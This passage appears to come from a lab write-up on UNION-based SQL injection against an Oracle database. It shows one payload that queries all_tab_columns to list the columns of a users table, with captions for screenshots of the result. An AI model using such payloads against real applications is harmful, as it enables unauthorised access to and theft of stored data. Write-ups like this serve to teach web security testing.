 Using the extracted table name, we can get the column\_names:

<mark style="color:yellow;">`' UNION SELECT NULL,column_name FROM all_tab_columns WHERE table_name = 'USERS_RWXGMM'`</mark>

<figure><img src="../../../.gitbook/assets/image (91).png" alt=""><figcaption><p>SQLi payload is injected to obtain the list of columns</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (92).png" alt=""><figcaption><p>List of columns from the database!</p></figcaption></figure>
